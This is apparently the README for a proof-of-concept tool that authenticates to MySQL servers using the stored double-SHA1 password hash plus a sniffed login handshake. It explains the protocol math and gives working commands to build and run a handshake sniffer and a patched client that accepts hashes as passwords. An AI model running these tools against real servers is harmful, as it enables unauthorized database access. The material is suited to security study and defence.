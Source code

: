 mysql-unsha1
============

Authenticate against a MySQL server without knowing the cleartext password.

Abstract
--------

This PoC shows how it is possible to authenticate against a MySQL server under
certain circumstances without knowing the cleartext password when the [Secure
Password Authentication] authentication plugin (aka `mysql_native_password`, the
default method) is used.

Preconditions are:

- to obtain a read-only access to the `mysql.user` table in the target database
  in order to fetch the hashed password for a given user;

- to be able to intercept a successful authentication handshake performed by the
  aforementioned user (i.e., [authentication via SSL] would nullify this
  attempt).

**Note:** This is not a bug nor a vulnerability in MySQL (this is hardly an
*exploit* actually), it is just a direct consequence of how the authentication
protocol works. If an attacker is able to satisfy the above points then the
whole system is probably already compromised. Yet this exploit may offer an
alternative approach to obtain a proper authenticated access to a MySQL server.

MySQL server passwords
----------------------

By default, passwords are stored in the `mysql.user` table and are hashed using
the `PASSWORD` function which is just a two-stage SHA1 digest:

```
mysql> SELECT DISTINCT password FROM mysql.user WHERE user = 'root';
*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19

mysql> SELECT PASSWORD('password');
*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19

mysql> SELECT SHA1(UNHEX(SHA1('password')));
2470c0c06dee42fd1618bb99005adca2ec9d1e19
```

The handshake
-------------

After the TCP connection phase, initiated by the client, the MySQL
authentication [handshake] continues as follows (simplified):

1. the server sends a `Server Greeting` packet containing a *salt* (`s`);

2. the client replies with a `Login Request` packet containing the session
   password (`x`), computed as follows:

        x := SHA1(password) XOR SHA1(s + SHA1(SHA1(password)))

    where `password` is the cleartext password as provided by the user and `+`
    is a mere string concatenation operator;

3. the server can verify the *challenge* and authenticate the client if:

        SHA1(x XOR SHA1(s + SHA1(SHA1(password)))) = SHA1(SHA1(password))

    where `SHA1(SHA1(password))` is the two-stage SHA1 digest of the password,
    stored in the `mysql.user` table; the server does not know the cleartext
    password nor its SHA1 digest.

The exploit
-----------

With enough information an attacker is able to obtain `SHA1(password)` and
therefore to solve the server challenge without the knowledge of the cleartext
password.

Let:

- `h` be the hashed password obtained from the `mysql.user` table (i.e.,
  `SHA1(SHA1(password))`);

- `s` and `x` be the salt and the session password respectively obtained from
   the intercepted handshake.

The first-stage SHA1 can be obtained as follows:

    SHA1(password) = x XOR SHA1(s + h)

Tools
-----

To ease the reproducibility of the exploit, this PoC provides two tools:

- a simple sniffer to extract and check the handshake information either live or
  offline from a PCAP file;

- a patch for MySQL client which allows to treat the prompted passwords as SHA1
  digests instead of cleartexts.

### The sniffer

To build `mysql-unsha1-sniff` just run `make` (or `make static` to produce a
statically linked executable). The Makefile will look for the `uthash.h` file in
this directory and will download it if not found.

Run `mysql-unsha1-sniff` without arguments to display the usage message.

In accordance with the previous example:

    sudo ./mysql-unsha1-sniff -i lo 127.0.0.1 3306 2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19:root

Once a successful authentication handshake is captured the output will be like:

    [+] Input:
    [+] - username ........................ 'root'
    [+] - salt ............................ 3274756c42415d3429717e482a3776704d706b49
    [+] - client session password ......... 6d45a453b989ad0ff0c84daf623e9870f129c329
    [+] - SHA1(SHA1(password)) ............ 2470c0c06dee42fd1618bb99005adca2ec9d1e19
    [+] Output:
    [+] - SHA1(password) .................. 5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
    [+] Check:
    [+] - computed SHA1(SHA1(password)) ... 2470c0c06dee42fd1618bb99005adca2ec9d1e19
    [+] - authentication status ........... OK

If no account information are provided, the tool will only display the salt and
the session password.

### The patched MySQL client

Building the MySQL client may take some time and requires a certain amount of
free disk space:

1. download and extract the MySQL source code:

        wget https://github.com/mysql/mysql-server/archive/mysql-5.7.17.tar.gz
        tar xf mysql-5.7.17.tar.gz
        cd mysql-server-mysql-5.7.17

2. apply the patch:

        patch -p1 </path/to/mysql-server-unsha1.patch

3. build (without server) with:

        mkdir build
        cd build
        cmake -DDOWNLOAD_BOOST=1 -DWITH_BOOST=boost -DWITHOUT_SERVER:BOOL=ON ..
        make -j$(nproc)

4. the client executable will be created at `client/mysql`, optionally install
   it globally and delete the whole source code to save some space:

        sudo cp client/mysql /usr/local/bin/mysql-unsha1
        cd ../..
        rm -fr mysql-server-mysql-5.7.17

Use `mysql-unsha1` as the original MySQL client, just remember that the
`--password[=password], -p[password]` option now requires a 40-digit hexadecimal
SHA1 string.

In accordance with the previous example:

    mysql-unsha1 -h 127.0.0.1 -P 3306 -u root --password=5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8

Where:

```
mysql> SELECT SHA1(UNHEX('5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8'));
2470c0c06dee42fd1618bb99005adca2ec9d1e19
```

and `2470c0c06dee42fd1618bb99005adca2ec9d1e19` is the hashed password stored in
the `mysql.user` table.

[Secure Password Authentication]: https://dev.mysql.com/doc/internals/en/secure-password-authentication.html
[authentication via SSL]: https://dev.mysql.com/doc/internals/en/ssl.html
[handshake]: https://dev.mysql.com/doc/internals/en/plain-handshake.html
